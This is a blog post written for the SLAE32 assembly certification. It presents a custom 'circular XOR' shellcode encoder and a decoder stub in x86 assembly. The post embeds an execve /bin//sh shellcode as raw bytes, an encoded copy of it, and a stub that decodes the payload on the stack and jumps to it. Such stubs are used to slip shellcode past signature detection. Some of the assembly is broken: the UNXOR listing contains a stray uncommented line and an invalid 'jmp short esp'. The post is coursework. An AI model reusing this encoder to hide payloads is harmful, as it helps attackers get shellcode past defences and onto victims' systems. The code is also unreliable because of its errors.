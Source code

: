 ```yaml
---
layout: post
title:  SLAE32 Assignment 4 - custom encoder
excerpt: asm code for my encoder
---
```

this assignment has been splitted in 2 (actually 4) exercises:
1. xor.py takes a shellcode, xor it with given starting value, then xor each bytes with previous original one plus something she eventually can xor it with all valid ascii values (0,255) and inc from 1 to 9 to find valid pairing, kept in mind that both plain and encoded shellcode cannot contain null bytes
2. xor.asm does the same, in asm, but doesn't says you have to "null terminate" (read xor.py to understand). also cannot print shellcode in hex but prints it as code: you have to pipe to xxd to get the value
3. unxor.py does the reverse: takes encoded shellcode, inc and first xor and gives back the plain shellcode
4. unxor.asm does the same, in asm, but also executes the shellcode

i did the steps also in python3 to confirm that everything's ok: it's not THAT easy to debug an idea using asm :)

used shellcode is a slightly modified version of execve-stack. i remove .data section and all functions to have a straight code.
you can read it at 04_execve_stack.asm at https://github.com/gulyslae/SLAE32
python code has been committed to github as well

## XOR
    ; name        : circularxor-xor
    ; author      : Sandro "guly" Zaccarini SLAE-1037
    ; purpose     : this code has been written for SLAE32 assignment 4
    ; license     : CC-BY-NC-SA
    ; description : the encoder i choose is a "circular xor". given a starting value used
    ;               for the first byte, every byte xores the one that preceeds.
    ;               to avoid null bytes, because for example //bin/sh has two equals
    ;               consecutive bytes that if xored will lead to 0x00, i choose to
    ;               add 0x1 every "previous byte",
    ;               paying attention to don't have any null case (ex: 0x4142 will lead to
    ;               null bytes, i should've add 0x2).
    ;
    ; having 0x414345 and a starting value of 0x26 as example, we will have:
    ; 0x41^0x26 => 0x67
    ; (0x43+0x1)^0x41 => 0x05
    ; (0x45+0x1)^0x43 => 0x05
    ; my encoded shellcode will then be 0x670505
    ; decoding stub will xor the first byte with a known value to have the first right
    ; value then inc it to xor the second one, to have the right second back, and so on
    ;
    ; every shellcode will terminate with an added byte, that is the real last one add 1
    ; to have a 0x00 when xored.
    ; for example, a shellcode like 0x414345 will be writte in .data as 0x41434546
    ;
    ; please note that i don't need to make this code nullbyte proof because it will be
    ; run just locally ; but i'm doing it 0x00 free as extra-mile
    
      global _start
    
      section .text
    
      exit:
    xor eax,eax
    mov al,0x1
    int 0x80
    
      _start:
    
    ; place in bl our xor starting value
    mov bl,0xa1
    jmp short call_decoder
    
      decoder:
    pop esi
    ; al will hold current right value
    mov al, byte [esi]
    ; i need to copy it also to bh to have it ready for next xor
    mov bh,al
    ; first al is hardcoded of course, now al will
    xor al, bl ; first one is hardcoded
    
    ; make room for the shellcode, current is like 0x1f so more than enough to sub 0x3f
    sub esp,0x3f
    ; move first byte to esp
    mov [esp+ecx],al
    
      decode:
    ; copy current right to bl
    mov bl,bh
    ; add 1 to bl because during xor i did this
    inc bl
    ; go to next byte
    inc esi
    ; and add 1 to ecx to write to right position in the stack
    inc ecx
    ; al will hold current right value
    mov al, byte [esi]
    ; i need to copy it also to bh to have it ready for next xor
    mov bh,al
    ; xor current with previous+1
    xor al, bl
    ; copy the right value on the right position in the stack
    mov [esp+ecx],al
    
    ; because i placed two consecutive values here (actually prev+0x1), al will be 0x00
    ; and because nobody touched edx, dl is 0x00 too
    cmp al,dl
    ;call trap
    je write_shellcode
    jmp short decode
    
      call_decoder:
    call decoder
    plainShellcode: db 0x31,0xc0,0x50,0x68,0x2f,0x2f,0x73,0x68,0x68,0x2f,0x62,0x69,0x6e,0x89,0xe3,0x50,0x89,0xe2,0x53,0x89,0xe1,0xb0,0x0b,0xcd,0x80,0x31,0xc0,0xb0,0x01,0xcd,0x80
    mlen equ $-plainShellcode
    
      write_shellcode:
    nop
    nop
    xor eax,eax
    xor ebx,ebx
    xor edx,edx
    
    mov ecx,esp
    ; write id
    mov al, 0x4
    ; write to sdout
    mov bl, 0x1
    ; shellcode len, hardcoded
    ;mov dl, 0x20
    mov dl,mlen
    ; do it
    int 0x80
    ; put in ecx 4 bytes of my shellcode
    
    call exit


## UNXOR
    ; name        : circularxor-xor
    ; author      : Sandro "guly" Zaccarini SLAE-1037
    ; purpose     : this code has been written for SLAE32 assignment 4
    ; license     : CC-BY-NC-SA
    ; description : the encoder i choose is a "circular xor". given a starting value used
    ;               for the first byte, every byte xores the one that preceeds.
    ;               to avoid null bytes, because for example //bin/sh has two equals
    ;               consecutive bytes that if xored will lead to 0x00, i choose to
    ;               add 0x1 every "previous byte",paying attention to don't have any null
    ;               case (ex: 0x4142 will lead to null bytes).
    ;
    ; having 0x414345 and a starting value of 0x26 as example, we will have:
    ; 0x41^0x26 => 0x67
    ; (0x43+0x1)^0x41 => 0x05
    ; (0x45+0x1)^0x43 => 0x05
    ; my encoded shellcode will then be 0x670505
    ; decoding stub will xor the first byte with a known value to have the first right
    ; value, then inc it to xor the second one, to have the right second back, and so on
    ;
    ; every shellcode will terminate with an added byte, that is the real last one add 1
    ; to have a 0x00 when xored.
    ; for example, a shellcode like 0x414345 will be writte in .data as 0x41434546
    ;
    ; please note that i don't need to make this code nullbyte proof because it will be
    ; runt just locally ; but i'm doing it 0x00 free as extra-mile
    
      global _start
    
      section .text
      _start:
    
    ; place in bl our xor starting value
    mov bl,0xa1
    jmp short call_decoder
    
      decoder:
    pop esi
    ; al will hold current right value
    mov al, byte [esi]
    ; xor it
    xor al, bl
    
    ; make room for the shellcode, current is like 0x1f so more than enough to sub 0x3f
    sub esp,0x3f
    ; move first byte to esp
    mov [esp+ecx],al
    
      decode:
    ; copy current right to bl
    mov bl,al
    ; add 1 to bl because during xor i did this
    inc bl
    ; go to next byte
    inc esi
    ; and add 1 to ecx to write to right position in the stack
    inc ecx
    ; al will hold current right value
    mov al, byte [esi]
    ; xor current with previous+1
    xor al, bl
    ; copy the right value on the right position in the stack
    mov [esp+ecx],al
    
    ; i know dl is 0x00 because nobody used it, as soon as al is 0x00 too
    jmp to our shellcode
    
    cmp al,dl
    je call_shellcode
    jmp short decode
    
      call_decoder:
    call decoder
    Shellcode: db 0x90,0xf2,0x91,0x39,0x46,0x1f,0x43,0x1c,0x01,0x46,0x52,0x0a,0x04,0xe6,0x69,0xb4,0xd8,0x68,0xb0,0xdd,0x6b,0x52,0xba,0xc1,0x4e,0xb0,0xf2,0x71,0xb0,0xcf,0x4e,0x81
    
      call_shellcode:
    jmp short esp


*This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/*
